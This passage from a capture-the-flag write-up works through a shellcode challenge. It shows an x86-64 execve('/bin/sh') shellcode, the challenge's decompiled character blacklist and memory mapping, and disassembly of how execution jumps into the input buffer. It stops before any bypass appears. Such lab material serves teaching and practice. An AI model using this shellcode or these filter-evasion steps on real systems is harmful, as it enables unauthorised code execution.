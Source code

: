 So, we test a quick shellcode to see what happens, and get `"nope"` as output. It appears there must be some restrictions to the input.
```asm
xor     rdx, rdx
lea     rbx, [rip+binsh]
mov     rdi, rbx
push    rdx
push    rbx
mov     rsi, rsp
mov     eax, 0x3b
syscall
hang:
    jmp hang

binsh:
    .ascii "/bin/sh\\0"
```

After decompiling the binary, we can immediately spot that certain characters are blacklisted. More specifically, the shellcode cannot contain `/`, `bin`, `sh` and `\0`. From the decompilation, we also understand a bit more about what is going on with the memory mapping. A `r-x` segment with our input in indeed created.

```c
void *addr = (void *)((unsigned __int64)addr & 0x7FFFFFFFF000LL);
char *buf  = mmap(addr, 0x1000uLL, 3, 50, -1, 0LL);
...
int input_size = read(0, buf, 0x1000uLL);
...
for (size_t i = 0; i < input_size; ++i ) {
    if ( buf[i] == 47 # /
        || buf[i] == 98 && buf[i + 1] == 105 && buf[i + 2] == 110 # bin
        || buf[i] == 115 && buf[i + 1] == 104 # sh
        || !buf[i] ) # \0
    {
        puts("nope");
        return 1;
    }
}

if ( mprotect(buf, 0x1000uLL, 5) == -1 ){ // PROT_READ | PROT_EXEC
    perror("mprotect failed");
    return 1;
} else {
    return -1;
}
```

To understand how the control flow ends up at the `buf` segment, we need to look at the assembly at the end of the `main` function. The address of `buf` is pushed on to the stack, then, all the registers are cleared (probably to avoid leaking information), finally the program returns. A `RET` is equivalent to a `POP RIP`, thus, `RIP = buf`:

```asm 
00101545 48 8b 45 b8     MOV        RAX,qword ptr [RBP + buf]
00101549 50              PUSH       RAX
0010154a 48 c7 c0        MOV        RAX,-0x1
         ff ff ff ff
00101551 48 c7 c3        MOV        RBX,-0x2
         fe ff ff ff
00101558 48 c7 c1        MOV        RCX,-0x3
         fd ff ff ff
0010155f 48 c7 c2        MOV        RDX,-0x4
         fc ff ff ff
00101566 48 c7 c7        MOV        RDI,-0x5
         fb ff ff ff
```